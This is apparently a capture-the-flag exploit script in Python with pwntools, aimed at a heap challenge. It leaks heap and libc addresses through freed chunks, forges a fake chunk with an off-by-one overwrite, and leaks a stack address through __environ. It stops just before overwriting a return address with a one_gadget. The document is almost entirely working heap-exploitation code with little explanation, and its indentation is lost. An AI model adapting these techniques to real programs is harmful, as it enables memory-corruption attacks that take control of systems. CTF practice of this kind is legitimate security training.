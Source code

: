 ```

def edit(index, content):
p.recvuntil("(CMD)&gt;&gt;&gt; ")
p.sendline("E")
p.recvuntil("(INDEX)&gt;&gt;&gt; ")
p.sendline(str(index))
p.recvuntil('CONTENT: ')
retstr = p.recvuntil('\n')
p.recvuntil("(CONTENT)&gt;&gt;&gt; ")
p.sendline(content)
p.recvuntil("(Y/n)&gt;&gt;&gt; ")
p.sendline('Y')
return retstr

#1 leak heap addr and libc addr
alloc(0x40,'a')#idx1
alloc(0x40,'b')#idx2
alloc(0x80,'c')#idx3
alloc(0x18,'d')#idx4

delete(2)#fastbin
delete(1)#fastbin
delete(3)#unsorted bin
delete(4)
p.recvuntil('CONTENT: ')
buf_addr = u64(p.recvuntil('\n',drop = True).ljust(8,'\x00'))
p.recvuntil('CONTENT: ')
p.recvuntil('CONTENT: ')
libc_base = u64(p.recvuntil('\n',drop = True).ljust(8,'\x00')) - 0x7f8c12b7ab78 + 0x7f8c127b6000
main_arena_88 = libc_base + 0x7f8c12b7ab78 - 0x7f8c127b6000
log.success('buf_addr: %s' % hex(buf_addr))
log.success('libc_base: %s' % hex(libc_base))
#gdb.attach(p)
#pause()
#2
offset = buf_addr + 0x100 - 0x602060
log.success('offset: %s' % hex(offset))
alloc(0x18,'e' * 0x18) #idx1
alloc(0xf0,'e' * 0xf0)#idx2
alloc(0x100,'f' * 0xf8)#idx3
alloc(0x100,'g' * 0x100)#idx4

len_of_zero = (18 - len(str(hex(offset))))/2
edit(1,'a' * 0x18)#idx2 preinuse
for i in range(len_of_zero):
edit(1,'a' * (0x17 - i))
edit(1,'a' * 0x10 + p64(offset))

fake_chunk = 'd' * 0x20 + p64(0) + p64(0x101) + p64(0x602060) * 2
edit(2,fake_chunk)#write fake_chunk to tinypad
delete(2)
payload2 = 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena_88) * 2
edit(4,payload2)


environ_addr = libc_base + libc.sym['__environ']
payload3 = 'a' * 0xd0 + p64(0x18) + p64(environ_addr) + p64(0x100) + p64(0x602148)
alloc(0x100 - 8,payload3)#idx2
p.recvuntil('CONTENT: ')
stack_addr = u64(p.recvuntil('\n',drop = True).ljust(8,'\x00'))
ret_addr = stack_addr + 0x7ffd2bad3188 - 0x7ffd2bad3278
log.success('stack_addr: %s' % hex(stack_addr))
one_gadget_addr = libc_base + one_gadget[0]
```
